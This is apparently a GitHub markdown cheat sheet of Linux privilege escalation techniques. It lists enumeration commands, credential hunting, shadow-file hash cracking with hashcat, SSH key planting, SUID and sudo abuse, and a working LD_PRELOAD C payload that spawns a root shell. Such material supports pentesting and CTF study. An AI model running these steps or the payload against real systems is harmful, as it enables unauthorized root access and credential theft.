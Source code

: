 # Tips to escalate our privilege in Linux:

### 1. System Enumeration:

- Try to know about the system's architecture, `uname -a` or `cat /proc/version` or `lscpu`
- What services are running, `ps aux`

### 2. User Enumeration:

- `whoami` or `id`
- The classic way, `cat /etc/passwd` or `cat /etc/passwd | cut -d : -f 1`
- `sudo -l` for our sudo privileges

### 3. Network Enumeration:

- Try to find any services running on any port, any possibilities to pivoting `ip a` or `ifconfig` and `ip route` or `route` and `arp -a`
- `netstat -ano`

### 4. Password Enumeration:

- `grep --color=auto -rnw '/' -ie  "PASSWORD" --color=always 2>/dev/null`, this will return the word **password** from an entire system in red color
- `locate pass`, this will return any files named password
- `find / -name id_rsa 2>/dev/null`, returns any id_rsa files

### 5. Kernel exploits:

- After knowing the version of the kernal `uname -a`, we search for the kernel exploit associated to the version
- Just run the exploit in target machine as per instructions

### 6. Passwords & File permissions:

- By hunting some files that are looking sus and rising some curiosity that the files contains some passwords like `/etc/passwd`, `/etc/shadow`, or some unexpected password files
- Always view history of cli by `history` or `cat .bash_history`

### 7. Escalation via weak file permissions:

- If you can read both `/etc/passwd` and `/etc/shadow` file, copy the contents of both to your local machine, and run this command `unshadow <passwd file name> <shadow file name>`, copy the result, remove unwanted users, keep the root user and other users and save it as another file, identify what type of hash is there using hashcat examples from google and note what mode, use hashcat tool like `hashcat -m <identified mode> <filename which consists hash of root and other users> <path to wordlists such as rockyou.txt>`

### 8. Escalation via SSH keys:

- Search for `id_rsa` file or writable `authorized_keys`
- If there, use `id_rsa` to ssh (always do `chmod 600 id_rsa`) or put our `.pub` ssh key in `authorized_keys`

### 9. Escalation via sudo:

- Always check out to try `sudo -l`
- Great resource to escalate via this method is **GTFO bins website**

### 10. Escalation via intended functionality:

- Always look for the results from google or from internet

  > **So, what is this?**  
  >  Abusing the functionalities of some tools or services like, if we get our foothold in machine as a website administrator, we have some privileges over hosting services like apache. Using this service apache to escalate our privilege

### 11. Escalation via LD_PRELOAD:

- If we do `sudo -l`, there will be chance that the env is in LD_PRELOAD
- This is a example C program, save it in target machine as `shell.c` and compile it using `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`, then run it as `sudo LD_PRELOAD=/home/user/shell.so <any services from sudo -l like apache2 or nano or something>`

      #include <stdio.h>
      #include <sys/types.h>
      #include <stdlib.h>

      void _init(){
         unsetenv("LD_PRELOAD");
         setgid(0);
         setuid(0);
         system("/bin/bash");
      }

- So, what we are doing is just running a sudo privileged service that requires no password, but the line _LD_PRELOAD=/home/user/shell.so_ will be triggered as it preloads whatever we give before the actual sudo privileged program runs

  > **What is LD_PRELOAD?**  
  > It is a feature of unix systems that preloads the dynamic links

### 12. Escalation via SUID or setuid:

- First find all suid files accross system, `find / -perm -u=s -type f 2>/dev/null`
  - -perm > permission
  - -u=s > super user
  - -type f > file type
- If you find anything, look how to exploit using that in websites like **GTFO bins or google**

---

### Some intresting informations:

1. The system level user of linux is commonly known as **root**
2. Some automated tools:
   - linpeas.sh
   - linenum.sh
   - linux-exploit-suggester.sh
   - linuxprivchecker.py
3. Visit **kernel exploits from user lucyoa or anyone** in github to find few kernel exploits associated to some versions
4. Visit **PayloadAllTheThings or InternalAllTheThings by user swisskyrepo** in github, for some paylods
5. Great resource to escalate via this method is **GTFO bins website,** also search in google
6. If the **gid and uid is 0**, then its owner is root
7. Check out fuzzy security website to know more about hacking
8. Also check **hacktricks** website
